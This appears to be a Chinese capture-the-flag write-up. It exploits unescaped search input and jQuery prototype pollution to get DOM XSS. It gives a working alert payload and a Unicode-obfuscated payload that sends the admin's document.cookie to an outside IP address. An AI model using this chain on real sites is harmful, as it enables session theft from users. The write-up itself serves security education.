 通过fuzz可以知道search参数不会做任何处理就会被拼接到响应中的term中，这意味着我们可以通过双引号来逃逸出term从而操控result字段，结合下文中使用的jquery代码存在着原型链污染漏洞，可以通过原型链污染进而造成DOM XSS攻击。最后构造存在DOM XSS漏洞的链接并发送给后台管理员，获取到cookie。

 发送http://outworld.nese.team:7780/?search=","result":{"__proto__":{"id":"\u003e\u003c\u0073\u0063\u0072\u0069\u0070\u0074\u003e\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0032\u0033\u0033\u0029\u003b\u003c\u0021\u002d\u002d","title":123}},"a":"，成功触发```<script>alert(1233);<!--```

最后将searchnode的id属性污染成`><script>document.location='http://xxx.xxx.xxx.xxx:xxx/?x='+window;<!--`，并发送给后台管理员，使其访问本地的实验环境并将cookie发送到用户的服务器上，得到flag。
发送
```
url=http://localhost:8000/?search=%22,%22result%22:{%22__proto__%22:{%22id%22:%22\u003e\u003c\u0073\u0063\u0072\u0069\u0070\u0074\u003e\u0064\u006f\u0063\u0075\u006d\u0065\u006e\u0074\u002e\u006c\u006f\u0063\u0061\u0074\u0069\u006f\u006e\u003d\u0027\u0068\u0074\u0074\u0070\u003a\u002f\u002f\u0033\u0039\u002e\u0031\u0030\u0035\u002e\u0031\u0037\u0036\u002e\u0033\u0037\u003a\u0031\u0032\u0033\u0033\u0034\u002f\u003f\u0078\u003d\u0027\u002b\u0064\u006f\u0063\u0075\u006d\u0065\u006e\u0074\u002e\u0063\u006f\u006f\u006b\u0069\u0065\u003b\u003c\u0021\u002d\u002d%22,%22title%22:123}},%22a%22:%22
```
